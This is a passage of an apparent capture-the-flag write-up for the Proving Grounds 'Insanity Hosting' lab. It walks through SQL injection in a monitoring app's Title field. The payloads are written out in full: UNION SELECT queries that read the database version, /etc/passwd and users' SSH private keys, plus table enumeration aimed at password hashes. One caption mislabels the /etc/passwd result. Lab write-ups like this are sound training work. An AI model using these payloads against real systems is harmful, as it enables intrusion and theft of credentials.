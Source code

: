 ![intruder](../../../assets/images/ctfs/proving_grounds/insanity_hosting/intruder.png)

After logging onto squirrelmail we don't maind any messages.

![mail1](../../../assets/images/ctfs/proving_grounds/insanity_hosting/mail1.png)

Added 2 hosts to the Monitoring system, one valid and one invalid, we receive an email for the invalid host saying it is down.

![mon2](../../../assets/images/ctfs/proving_grounds/insanity_hosting/mon2.png)

![mail2](../../../assets/images/ctfs/proving_grounds/insanity_hosting/mail2.png)

Test for SQLi

The payload _" OR 1=1 -- -_ in the Title field results in successful SQLi and dumping the database.

![sql1](../../../assets/images/ctfs/proving_grounds/insanity_hosting/sql1.png)

![mail3](../../../assets/images/ctfs/proving_grounds/insanity_hosting/mail3.png)

The payload _" UNION SELECT null, @@version,null,null -- -_ successfully lists the database version.

![sql2](../../../assets/images/ctfs/proving_grounds/insanity_hosting/sql2.png)

![mail4](../../../assets/images/ctfs/proving_grounds/insanity_hosting/mail4.png)

The payload _" UNION SELECT null,LOAD_FILE('/etc/passwd'),null,null -- -_ successfully lists the database version.

![sql3](../../../assets/images/ctfs/proving_grounds/insanity_hosting/sql3.png)

![mail5](../../../assets/images/ctfs/proving_grounds/insanity_hosting/mail5.png)

### Try to list users _elliot_ or _nicholas_ RSA private key

The payload _" UNION SELECT null,LOAD_FILE('/home/nicholas/.ssh/id_rs'),null,null -- -_ for user _nicholas_

The payload _" UNION SELECT null,LOAD_FILE('/home/elliot/.ssh/id_rs'),null,null -- -_ for user _elliot_

Neither worked.

![mail6](../../../assets/images/ctfs/proving_grounds/insanity_hosting/mail6.png)

### Get user password hashes.

_Step 1_ | Get the table names

The payload _" UNION SELECT null,group_concat(table_name),null,null from information_schema.tables where table_schema = database() -- - _
